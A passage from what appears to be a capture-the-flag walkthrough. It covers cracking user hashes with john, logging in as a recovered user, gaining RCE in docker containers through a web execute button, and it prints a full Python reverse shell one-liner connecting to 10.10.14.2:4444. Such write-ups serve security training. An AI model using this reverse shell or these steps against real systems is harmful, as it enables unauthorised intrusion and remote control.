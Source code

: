&#x20;I was able to get out the remaining hashes, which were for **root and gary.** We can crack these using john. Only one of them was crackable, and it was gary's.

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

So his password is rubberducky. With these credentials, we can log in to the website as gary.

### Container Creatio

Within the login, we are able to simply register and start a new docker container.

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Within each docker container, we can basically get RCE on it. This can be done using the execute command button. I found that using the one without the background creates a very unstable shell, so use the other one.

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

We can use this reverse shell command:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
